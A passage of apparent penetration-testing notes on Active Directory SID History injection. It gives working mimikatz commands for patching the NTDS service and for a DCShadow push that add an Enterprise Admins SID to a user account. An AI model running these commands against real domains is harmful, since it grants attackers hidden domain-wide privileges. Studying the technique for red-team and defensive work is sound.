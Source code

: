The following command can be used to validate the `SIDHistory` attribute
modification:

```    
Get-ADObject -Filter "(SamAccountName -eq '<SAMACCOUNTNAME>')" -Properties SIDHistory
```

*SID History modification through local patch of the NTDS service*

This technique of modification of the `SIDHistory` attribute requires
privileges granted to the `Domain Admins` group and must be conducted on a
Domain Controller as the `Windows NT Directory Services (NTDS)` service must be
locally patched. While the `SID History` modification will persist, the `NTDS`
service patch will not be persistent across reboot of the Domain Controller.

`mimikatz`'s `sid` module can be used to add `SIDs` in the `SIDHistory`
attribute of any users of the current domain (the following commands must be
executed directly on a Domain Controller):

```
# If necessary, elevate privileges to "NT AUTHORITY\SYSTEM" and enables the "SeDebugPrivilege" privilege.
mimikatz # token::elevate
mimikatz # privilege::debug

# Patches the ntds service.
# Only the first patch ("Patch 1/2 ntds service patched") is required for the attack (the second patch may rise an error, such as "ERROR kull_m_patch_genericProcessOrServiceFromBuild", with out incidence).
mimikatz # sid::patch

# Adds the given SID in the SIDHistory attribute of the specified user.
# S-1-5-21-<FOREST_DOMAIN>-519: SID of the "Enterprise Admins" group for example.
mimikatz # sid::add /sam:<SAMACCOUNTNAME> /new:<S-1-5-21-<FOREST_DOMAIN>-519 | EXTRA_SID>
```

*SID History modification through DCShadow*

The restriction on the modification of the `SIDHistory` attribute can be also
bypassed through a `DCShadow` attack to arbitrarily set an account `SIDHistory`
attribute. For more details on the `DCShadow` attack, refer to the
"DCShadow ACL" section of this note.

**This technique will override any `SID(s)` currently present in the `security
principal`'s `SIDHistory` attribute.**

```
# Two mimikatz interpreters (executed on a machine member of the domain) are required for the DCShadow attack:
# One running as "NT AUTHORITY\SYSTEM", the second as a domain user with enough privileges to conducted the DCShadow attack (usually a "Domain Admins").
# The following mimikatz commands must be executed sequentially (the /push must be done after the operation as been entered).

# First interpreter (executed as "NT AUTHORITY\SYSTEM").
mimikatz # lsadump::dcshadow /object:<USERNAME> /attribute:SIDHistory /value:<S-1-5-21-<FOREST_DOMAIN>-519 | SID>

# Second interpreter (executed as the privileged domain account).
mimikatz # lsadump::dcshadow /push
```
